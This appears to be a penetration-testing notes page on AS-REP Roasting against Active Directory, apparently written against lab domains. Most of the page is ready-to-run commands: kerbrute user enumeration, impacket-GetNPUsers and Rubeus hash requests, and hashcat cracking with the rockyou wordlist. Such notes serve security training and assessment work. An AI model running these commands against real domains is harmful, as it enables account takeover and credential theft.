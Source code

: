 # AS-REP Roasting

Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response. This attack is known as [_AS-REP Roasting_](https://harmj0y.medium.com/roasting-as-reps-e6179a65216b).

Veryify usernames:

{% code overflow="wrap" %}
```shell
kerbrute -domain hutch.offsec -users ./users.txt -dc-ip 192.168.219.122
```
{% endcode %}

## Linux

On Kali, we can use [**impacket-GetNPUsers**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) to perform AS-REP roasting:

{% code overflow="wrap" %}
```sh
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```
{% endcode %}

* **-dc-ip:** IP address of the domain controller
* **-outputfile:** name of the output file (contains AS-REP hash)
* **-request:** request the TGT
* **domain/user:** use the user needed for authentication and enter their password when prompted

## Windows

[_Rubeus_](https://github.com/GhostPack/Rubeus) is a toolset for raw Kerberos interactions and abuses.

As a pre-authenticated domain user: don't have to provide any other options to Rubeus except **asreproast.** Rubeus will automatically identify vulnerable user accounts

```sh
.\Rubeus.exe asreproast /nowrap
```

* **/nowrap:** prevent new lines being added to the AS-REP hashes

## Crack the hash

Find the correct hashcat mode for the AS-REP hash:&#x20;

```sh
hashcat --help | grep -i "Kerberos"
```

Crack the hash:

{% code overflow="wrap" %}
```sh
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
